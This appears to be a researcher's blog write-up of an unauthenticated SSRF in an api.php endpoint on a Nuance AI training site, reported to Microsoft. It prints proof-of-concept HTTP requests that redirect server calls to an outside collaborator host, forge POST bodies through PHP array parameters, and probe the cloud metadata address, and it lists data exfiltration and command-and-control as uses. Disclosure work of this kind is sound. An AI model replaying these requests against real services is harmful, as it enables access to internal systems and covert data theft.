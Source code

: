 ```yaml
---
title: "Unauth HTTP SSRF in Nuance Ai Training Platform"
date: 2024-12-02T11:30:37-05:00
draft: true
tags: ["nuance", "ssrf", "ai", "msrc"]
---
```


I submitted another HTTP SSRF in MS services via MSRC recently, this time within an insecure `api.php` endpoint I found on `train.digital.nuance.com`. 

This was a full HTTP SSRF, capable of interacting with internal services, and could be used for both GET and POST requests, including sending full GET/POST bodies with arbitrary parameter/value pairs to arbitrary resources.

## Bounty?
None. A few weeks after submission, MS responded that they confirmed the bug, were investigating the issue, and asked for any more information I could provide. At this time I dug in a little bit more, finding the ability to submit full POST requests with bodies and arbitrary params. They didn't reply, and closed the case.

No "thank you", no "We've fixed it"... nothing, lol

![lame](image.png)

Anyway, here are the details.

## api.php

While performing some recon against MS infra, I came across an interesting site, `train.digital.nuance.com`, that appeared to be an online chat testing application. This app let users to connect to virtual "Agents" to interact with them. Judging by the aptly named domain, it seemed likely this platform was intended to be used to train AI agents for Nuance, a Microsoft owned conversational AI.

Most of the traffic sent to the app were POSTs to an `api.php` endpoint, and contained several suspicious body params:
- `body`
- `domain`
- `endpoint`
- `params`, and
- `type`

Flipping the `domain` parameter to a burp collab server, the app sent a request to th collab, which turned out to be a full HTTP SSRF, response and everything. After playing with params the following PoC was reasonable enough to demonstrate some nasty behavior.

![request-response](<Pasted image 20241027220537.png>)

Collab Receives:
![collab](<Pasted image 20241027220621.png>)

A few things about the request / responses above:
1. I changed the `endpoint`, `params`, and `type` values to see if those were sent too (they are) or modified the request method (they do)
2. The `token` parameter, a JWT, was automagically added by the app, no auth was actually needed
3. A POST is received by the collab (cool), but data in the `body` param wasn't sent... note that it was `{}` by default
4. The request was CSRF-able

I found it was also possible to interact with internal resources, such as VM metadata URLs, `http://169.254.169.254/xxx`. This could be inferred from application responses that included the error codes of the SSRF itself, should the SSRF fail. A useful mechanism for my purposes. Unfortunately, it wasn't possible to return data from the metadata URLs, as there wasn't a way to inject the required headers into the SSRF request (`metadata: true`). 

This, at least, provided some nice proof that interaction with local / internal resources was possible.

## Elevating the issue

One limitation of this bug remained the inability to forward POST bodies, even though the request method could be changed to a POST and an apparent `body` parameter was present. After trying a few more things, I recalled the server's response headers contained `X-Powered-By: PHP/7.3.33`. This clicked, and I sent a request with the `body` param of `body[]=test`-- an attempt to leverage PHP functionality known as "type-juggling":

```http
POST /api.php?tagserver/launch/agentAvailability HTTP/1.1
Host: train.digital.nuance.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 873

body[]=test&domain=176h3g72su9pqi3s87m5a1n9309rxlt9i.oastify.com&endpoint=test_endpoint&params=test_param%3dtest_value&token=[...]&type=POST
```

and now, the collaborator received:
```http
POST /test_endpoint?test_param=test_value HTTP/1.1
Host: 176h3g72su9pqi3s87m5a1n9309rxlt9i.oastify.com
Accept: */*
Content-Type: application/x-www-form-urlencoded
Authorization: Bearer [...]
Content-Length: 6

0=test
```

Surprise! Data could be sent after all. This is great, but a POST body parameter named `0` is unlikely to be particularly useful.

I've used type juggling before, but I didn't know it's possible to create an array element with an arbitrary name using it. Meaning, it becomes possible to send something like `body[param]=value` and forge a request that sends a POST body of `param=value`:

Request:
```http
POST /api.php?tagserver/launch/agentAvailability HTTP/1.1
Host: train.digital.nuance.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 879

body[param]=value&domain=176h3g72su9pqi3s87m5a1n9309rxlt9i.oastify.com&endpoint=test_endpoint&params=test_param%3dtest_value&token=[...]&type=POST
```

Collab receives:
```http
POST /test_endpoint?test_param=test_value HTTP/1.1
Host: 176h3g72su9pqi3s87m5a1n9309rxlt9i.oastify.com
Accept: */*
Content-Type: application/x-www-form-urlencoded
Authorization: Bearer [...]
Content-Length: 11

param=value
```

## Cool, right? 

This bug went from a simple HTTP SSRF to something much more, very quickly. To summarize, it let an attacker:

- Send and receive full HTTP requests to arbitrary destinations, including internal services
- Send both GET and POST methods, including arbitrarily provided URL and POST body parameters
- Exfiltrate data through the `body` and `token` parameters, resulting in requests routed through Microsoft infrastructure
    - This is also potentially very useful for C2, as traffic appears to be sent to legitimate Microsoft services

Even though Microsoft didn't provide any bounty for this issue, it was fun to see a full SSRF, something of a rareity these days. Also, a legitimate use for type juggling was fun to find, not sure I've ever used it in this fashion.

